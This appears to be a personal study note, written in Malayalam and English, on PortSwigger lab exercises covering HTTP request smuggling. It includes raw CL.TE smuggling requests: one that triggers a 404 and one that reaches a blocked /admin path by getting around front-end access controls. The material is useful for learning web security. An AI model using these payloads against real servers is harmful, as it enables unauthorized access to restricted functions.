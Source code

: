                             POST / HTTP/1.1
							Host: your-lab-id.web-security-academy.net
							Content-Type: application/x-www-form-urlencoded
							Content-Length: 35
							Transfer-Encoding: chunked
							
							0
							
							GET /404 HTTP/1.1
							X-Ignore: X

-->ivide front end C.L support chyunath kond request ile ellam edukunu.but backen il chunked mathrame support chyu.so 0 kk shesham ullath next request aayi kanunu
-->ivide lab solve chyanamengil smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response. 
-->athukondan GET /404  enn smuggled request il koduthath
-->ivide x-ignore: x enn kodukanamenonum ila. x: x enn koduthalum aavum pakshe namal correct content-lenth specify chyanam.njan paranju front-end server content-length aan support chyunathen so athinte length correct aayi specify chyunilengil front-end ath kitunath vere wait chyum enit response "read timeout" enna error tharum
-->so ivide namuk lab solve aakumbol response aayi `HTTP/1.1 404 Not Found`   varum ok

==============================================================

### Bypass front-end security controls :
-->Suppose the current user is permitted to access `/home` but not `/admin`. They can bypass this restriction using the following request smuggling attack:

                                POST /home HTTP/1.1
								Host: vulnerable-website.com
								Content-Type: application/x-www-form-urlencoded
								Content-Length: 62
								Transfer-Encoding: chunked
								
								0
								
								GET /admin HTTP/1.1
								Host: vulnerable-website.com
								Foo: xGET /home HTTP/1.1
								Host: vulnerable-website.com

-->ivide ee request back endil ethumbol back end ithine rand request aayi kanum.ivide /admin enna request elavarkum accessible alla.access control restriction application use chyunund
-->so ingane smuggling vazhi chyumbol application vijarikum ee /admin enna request real aayi vannathanen. athayath It assumes that the requests have passed through the front-end controls, and so grants access to the restricted URL.

                Lab-5(Exploiting HTTP request smuggling to bypass front-end security 
                           controls, CL.TE vulnerability)
-->ivide namal enthan chyunathenal front-end server il pala restrictions undakam.ivide access control restriction und.so /admin enna pathilek namuk direct pokan patila
-->lab il poi  https://lab/admin ennadikumbol "Path /admin is blocked" enn kanikum.athayath front-end server /admin pathilek ulla access block chyunu
-->so direct oru userinum admin pathilek access ila.athan namuk exploit/bypass chyendath
-->so namuk thodangam
-->aadyam GET / reqeust eduth repeater il iduka.enit sathara chyuna pole content-type,content-length,transfer-encoding ittit 0 koduth enthengilum kodukuka.enit rand pravisham send adikuka
